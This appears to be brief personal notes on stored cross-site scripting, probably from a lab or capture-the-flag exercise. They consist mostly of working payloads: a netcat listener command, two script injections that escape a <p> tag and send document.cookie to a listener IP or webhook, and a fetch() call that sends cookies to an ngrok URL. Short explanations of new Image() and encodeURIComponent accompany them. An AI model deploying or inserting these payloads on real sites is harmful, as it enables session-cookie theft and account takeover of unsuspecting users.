 
```sh
nc -nvlp 4444
```

stored xss

 `escape <p> tag first`

```html
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

```html
</p><script>var i=new Image; i.src="webHookAddress/?"+document.cookie;</script>
```

new Image() contructor create an image object
it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

'''js
fetch(`https://ae1c-43.ngrok-free.app?${encodeURIComponent(document.cookie)}`, { method: "get", headers: new Headers({ "ngrok-skip-browser-warning": true }) })
'''
